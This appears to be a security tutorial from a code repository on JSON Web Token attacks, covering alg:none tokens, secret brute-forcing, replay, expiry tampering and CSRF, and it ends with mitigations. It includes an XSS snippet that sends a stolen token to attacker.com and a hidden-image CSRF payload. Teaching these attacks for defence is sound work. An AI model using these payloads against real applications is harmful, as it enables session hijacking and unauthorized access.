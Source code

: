 # JSON WEB TOKEN (JWT)

JWT (JSON Web Token) attacks exploit vulnerabilities in token handling, such as weak signing algorithms, token theft, or improper validation, potentially allowing unauthorized access to protected resources.

## Methods to perform JWT

- ### Algorithm Manipulation:

Attackers can exploit applications that do not properly validate the algorithm specified in the JWT header. If the application accepts none as a valid algorithm, an attacker can create a token without a signature.
Example:
```text
{
  "alg": "none",
  "typ": "JWT"
}
```
If the server accepts this token without validation, the attacker can create a valid token with arbitrary claims.

- ### Weak Signing Algorithms:

If the server uses weak signing algorithms (like HS256) and the secret is weak or predictable, attackers can brute-force the secret key.
Example:
```text
# Using a tool like jwt-cracker
jwt-cracker -a HS256 -s "secret" <token>
```
If the secret is found, the attacker can forge valid tokens.

- ### Token Theft:

Attackers can steal JWTs through various means, such as XSS attacks, man-in-the-middle attacks, or insecure storage.
Example:

If a web application stores JWTs in local storage without proper security measures, an attacker can exploit XSS to retrieve the token:
javascript
```texte
// Malicious script
const token = localStorage.getItem('jwt');
fetch('http://attacker.com/steal', {
    method: 'POST',
    body: JSON.stringify({ token }),
    headers: { 'Content-Type': 'application/json' }
});
```
- ### Replay Attacks:

If JWTs are not properly invalidated after use, attackers can capture and reuse tokens to gain unauthorized access.
Example:

An attacker intercepts a valid JWT during transmission and reuses it to access protected resources:
```text
GET /api/protected HTTP/1.1
Authorization: Bearer <stolen_jwt>
```
- ### Token Expiration Manipulation:

If the application does not properly handle token expiration, attackers can manipulate the exp claim to extend the validity of a token.
Example:
```text
{
  "exp": 9999999999, // Far future expiration
  "sub": "user_id"
}
```
If the server does not validate the expiration correctly, the attacker can use the token indefinitely.

- ### Cross-Site Request Forgery (CSRF):

If JWTs are stored in cookies without the SameSite attribute, attackers can exploit CSRF vulnerabilities to send requests on behalf of the user.
Example:
```text
<img src="http://vulnerable-website.com/api/transfer?amount=1000" style="display:none;">
```
If the user is authenticated, the request will be sent with the JWT in the cookie.

- ### JWT Injection:

Attackers can inject malicious JWTs into applications that do not validate the token properly.
Example:
```text
POST /api/login HTTP/1.1
Content-Type: application/json

{
    "username": "attacker",
    "password": "password",
    "token": "<malicious_jwt>"
}
```
If the application accepts the injected token, the attacker gains unauthorized access.

## MITIGATION OF JWT
To protect against JWT attacks, consider the following best practices:

 - ### Validate Algorithms:
   Always validate the algorithm specified in the JWT header and reject any tokens that use `none` or weak algorithms.

- ### Use Strong Secrets:
  Use strong, unpredictable secrets for signing tokens and rotate them regularly.

- ### Implement Token Expiration:
  Set reasonable expiration times for tokens and implement refresh tokens for long-lived sessions.

- ### Secure Storage:
  Store JWTs securely, preferably in memory or using secure cookies with the `HttpOnly` and `SameSite` attributes.

- ### Implement CSRF Protection:
  Use anti-CSRF tokens or other mechanisms to protect against CSRF attacks.

- ### Regular Security Audits:
  Conduct regular security assessments and code reviews to identify and remediate vulnerabilities.
